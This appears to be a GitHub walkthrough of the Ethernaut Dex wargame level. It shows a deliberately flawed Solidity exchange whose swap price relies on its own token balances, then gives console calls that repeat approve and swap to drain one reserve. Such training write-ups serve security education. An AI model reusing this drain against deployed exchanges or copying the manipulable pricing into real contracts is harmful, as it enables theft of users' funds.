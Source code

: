 # Ethernaut Dex Level 22 Solution
This Project is a short walkthrough of the Ethernaut Dex level 22.

``` solidity
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
  function approve(address owner, address spender, uint amount) public returns(bool){
        super._approve(owner, spender, amount);
    }
}
```

You might want to read these articles before moving to the solution:
1. [ERC20 Approve/Allow Explained](https://medium.com/ethex-market/erc20-approve-allow-explained-88d6de921ce9)
2. [How does “swap” work between ERC20 tokens?](https://ethereum.stackexchange.com/a/92523/71430)

### Solution:

To solve this Level you only have to focus on this method:

```solidity
function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```
The Initial balance of the contract for both tokens is 100.
`get_swap_price()` calculates the token price using the contract token balance.
```solidity
(amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this))
```
This will return the same swap price i.e 10 token1 can be swapped 10 token2. 

To hack this method you have to break the equilibrium of the contract token balance.

You have to perform the following steps to yield higher swap price

- call `approve()` with token2 balance
```javascript
await contract.approve(
  instance,
  Number((await contract.balanceOf(token2address, instance)).toString())
)
```  
- call `swap()` with these parameters
```javascript
  await contract.swap(
  token2address,
  token1address,
  Number((await contract.balanceOf(token2address, instance)).toString())
  )
```
- Now, Your token2 balance is 0 and token1 balance is 20. If you check the `get_swap_price()` You can get 24 token2 by swapping with 20 token1
- call `approve()` with token1 balance
```javascript
await contract.approve(
  instance,
  Number((await contract.balanceOf(token1address, instance)).toString())
)
```
- call `swap()` with these parameters
```javascript
  await contract.swap(
  token1address,
  token2address,
  Number((await contract.balanceOf(token1address, instance)).toString())
  )
```

Repeat these step until you reduced the contract balance of either token to 0.


(Note: You might get this error `ERC20: transfer amount exceeds balance`.
This is because the contract do not have enough balance for the token you are requesting. You can reduce the swap amount to handle this)
